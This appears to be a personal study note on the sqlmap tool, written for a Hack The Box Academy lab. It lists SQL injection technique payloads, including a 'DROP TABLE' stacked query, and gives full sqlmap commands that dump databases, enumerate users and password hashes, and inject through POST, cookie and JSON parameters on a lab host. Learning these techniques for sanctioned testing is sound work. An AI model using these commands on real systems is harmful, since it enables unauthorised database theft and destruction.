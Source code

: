 # [SQLmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- Run it via taskbar or with 'sqlmap' or `python sqlmap.py` in terminal
- advanced help is `-hh`
- The technique characters BEUSTQ refers to the following:
    - B: Boolean-based blind - most common (`AND 1=1`)
    - E: Error-based (`AND GTID_SUBSET(@@version,0)`)
    - U: Union query-based (`UNION ALL SELECT 1,@@version,3`)
    - S: Stacked queries (`; DROP TABLE users`)
    - T: Time-based blind (`AND 1=IF(2>1,SLEEP(5),0)`)
    - Q: Inline queries (`SELECT (SELECT @@version) from`)

 - SQLMap Output descriptions - `https://academy.hackthebox.com/module/58/section/696`
 - Best way to properly set up an SQLMap request against a specific target is to sue 'Copy as cURL'. By pasting the clipboard content into the command line, and changing the original command curl to sqlmap, we are able to use SQLMap with the identical curl command - `sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`
 - Flags for automatic paramter finding - `--crawl, --forms or -g`
 - GET requests usually include -u / --url but POST requests usually contai nthe --data flag - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
 - POST parameters `uid` and `name` will be tested for SQLi vulnerability. For example, if we have a clear indication that the parameter uid is prone to an SQLi vulnerability, we could narrow down the tests to only this parameter using -p uid. Otherwise, we could mark it inside the provided data with the usage of special marker * as follows - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`
 - Can run SQLMap with a HTTP request file using the `-r` flag. Similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=*'.
 - Specify the cookie with `--cookie` or `-H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
 - To randomize the User-Agent header value use `--random-agent` or `--mobile` to imitate a phone
 - This dumps the out to a folder in root `sqlmap 'http://94.237.61.133:50543/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.61.133:50543' -H 'Connection: keep-alive' -H 'Referer: http://94.237.61.133:50543/case2.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'id=1' --dump --batch`
- `--dump`              Dump DBMS database table entries
- `--dump-all`          Dump all DBMS databases tables entries
- `--users`             Enumerate DBMS users
- `--passwords`         Enumerate DBMS users password hashes
- `--tables`            Enumerate DBMS database tables

- For cookies injection, copy as cURL, append `--dump --batch --cokie:"id=1*` e.g `sqlmap 'http://94.237.61.133:50543/case3.php' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Referer: http://94.237.61.133:50543/case3.php' -H 'Cookie: id=1' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --dump --batch --cookie="id=1*"` then go looking in output
- Similar story for JSON, copy as cURL and it kinda just does it for you `sqlmap 'http://94.237.61.133:50543/case4.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/json' -H 'Origin: http://94.237.61.133:50543' -H 'Connection: keep-alive' -H 'Referer: http://94.237.61.133:50543/case4.php' --data-raw '{"id":1}' --batch --dump`

